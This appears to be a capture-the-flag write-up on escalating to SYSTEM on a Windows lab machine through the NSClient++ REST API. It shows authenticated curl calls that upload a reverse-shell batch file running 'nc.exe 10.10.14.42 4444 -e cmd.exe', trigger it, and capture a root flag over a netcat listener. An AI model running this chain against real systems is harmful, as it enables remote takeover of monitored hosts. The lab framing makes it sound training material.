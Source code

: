 I choose the API way to root this box. I checked the API documentation of NSClient++ for the commands. I started by removing the curl alias in Powershell because it refers to the `Invoke-WebRequest` cmdlet in Powershell. 

```bash
PS C:\Program Files\NSClient++> Remove-Item alias:curl

```

First, I checked if I can call the API throuh the SSH session of Nadine. And it worked.

```bash
PS C:\Users\Nadine> curl -k -u admin https://localhost:8443/api/v1                                                   │
Enter host password for user 'admin':                                                                                │
{"info_url":"https://localhost:8443/api/v1/info","logs_url":"https://localhost:8443/api/v1/logs","modules_url":"https│
://localhost:8443/api/v1/modules","queries_url":"https://localhost:8443/api/v1/queries","scripts_url":"https://localh│
ost:8443/api/v1/scripts"}

```
As `CheckExternalScripts` and `Scheduler` are enabled already, I only have to place the script in the `C:\Program Files\NSClient++\Scripts` directory through the API and run this script. I invoked the command below and placed a reverse shell script, named revshell.bat. Of course, I placed the `nc.exe` file in the `C:\Temp ` directory.

```bash
curl -s -k -u admin -X PUT https://127.0.0.1:8443/api/v1/scripts/ext/scripts/revshell.bat --data-binary "C:\Temp\nc.exe 10.10.14.42 4444 -e cmd.exe"

```

With this command I call the script.

```bash
curl -s -k -u admin https://127.0.0.1:8443/api/v1/queries/revshell/commands/execute?time=3m

```

The reverse shell is established and I can now grab the root flag.

```bash
~$ nc -lvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.184.
Ncat: Connection from 10.10.10.184:50184.
Microsoft Windows &#91;Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system

C:\Program Files\NSClient++>type "C:\Users\Administrator\Desktop\root.txt"
type "C:\Users\Administrator\Desktop\root.txt"
d3d0930a47b35c8ae6ff3689411bf7ad

C:\Program Files\NSClient++>
~$ nc -lvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.184.
Ncat: Connection from 10.10.10.184:50184.
Microsoft Windows &#91;Version 10.0.18363.752]
```
